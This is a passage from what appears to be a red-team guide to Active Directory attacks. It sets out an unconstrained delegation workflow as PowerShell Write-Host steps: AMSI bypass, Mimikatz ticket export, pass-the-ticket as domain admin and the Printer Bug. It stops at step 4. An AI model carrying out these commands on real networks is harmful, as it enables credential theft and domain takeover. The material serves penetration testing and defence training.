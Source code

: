 ### **Detection and Evasion**
- **Blue Team Detection**: See [11_Detection_Blue_Team.md](./32_Detection_Blue_Team.md)
- **Red Team Evasion**: See [12_Detection_Red_Team.md](./33_Detection_Red_Team.md)

---

## 🔐 COMPLETE ATTACK WORKFLOWS

### **1. ⚠️ Complete Unconstrained Delegation Attack Workflow**

#### **Step-by-Step Unconstrained Delegation Execution**
```powershell
# Complete Unconstrained Delegation Attack Workflow (CRITICAL MISSING CONTENT)
Write-Host "=== COMPLETE UNCONSTRAINED DELEGATION ATTACK WORKFLOW ===" -ForegroundColor Red

Write-Host "`n🎯 ATTACK OVERVIEW:" -ForegroundColor Yellow
Write-Host "Unconstrained delegation allows services to impersonate users to access ANY service in the domain." -ForegroundColor White

Write-Host "`n📋 PREREQUISITES:" -ForegroundColor Yellow
Write-Host "1. Control of computer with unconstrained delegation enabled" -ForegroundColor White
Write-Host "2. High-privilege user connects to your service" -ForegroundColor White
Write-Host "3. TGT capture capability" -ForegroundColor White

Write-Host "`n🚀 EXECUTION STEPS:" -ForegroundColor Yellow
Write-Host "1. For an example we have machine pwn1 as an Unconstrained user" -ForegroundColor White
Write-Host "2. Get a PowerShell session as a different user using 'Over pass the hash' attack" -ForegroundColor White
Write-Host "3. We can try searching for local admins it has access to using Find-LocalAdminAccess" -ForegroundColor White
Write-Host "4. Create a New-PSSession attaching to the 'Unconstrained user'" -ForegroundColor White
Write-Host "5. Enter the new session using Enter-PSSession" -ForegroundColor White
Write-Host "6. Bypass the AMSI" -ForegroundColor White
Write-Host "7. EXIT" -ForegroundColor White
Write-Host "8. Load Mimikatz.ps1 on the new session using Invoke-command" -ForegroundColor White
Write-Host "9. Enter the new session using Enter-PSSession again" -ForegroundColor White
Write-Host "10. Now we can get the admin token and save it to the disk" -ForegroundColor White
Write-Host "11. Try and check if you have any file from a DA" -ForegroundColor White
Write-Host "12. If not we can try to pull if there is any sessions logged on as Administrator" -ForegroundColor White
Write-Host "13. Once we get an DA token we can Reuse the token using Invoke-Mimikatz" -ForegroundColor White
Write-Host "14. Now we can access any service on the DC" -ForegroundColor White

Write-Host "`n🔧 COMPLETE UNCONSTRAINED DELEGATION COMMANDS:" -ForegroundColor Yellow

Write-Host "`nStep 1: Enumerate Computers with Unconstrained Delegation" -ForegroundColor Cyan
Write-Host "# Find computers with unconstrained delegation" -ForegroundColor Gray
Write-Host "Get-NetComputer -UnConstrained" -ForegroundColor White

Write-Host "`nStep 2: Check for Available Tokens and Save to Disk" -ForegroundColor Cyan
Write-Host "# Check if a token is available and save to disk" -ForegroundColor Gray
Write-Host "Invoke-Mimikatz -Command '\"sekurlsa::tickets /export\"'" -ForegroundColor White

Write-Host "`nStep 3: Reuse Captured DA Token" -ForegroundColor Cyan
Write-Host "# Reuse of the DA token" -ForegroundColor Gray
Write-Host "Invoke-Mimikatz -Command '\"kerberos::ptt Administrator@krbtgt-DOMAIN.LOCAL.kirbi\"'" -ForegroundColor White

Write-Host "`nStep 4: Pull Administrator Sessions (Printer Bug)" -ForegroundColor Cyan
Write-Host "# Pull any sessions if logged on with administrator/ Printer Bug" -ForegroundColor Gray
```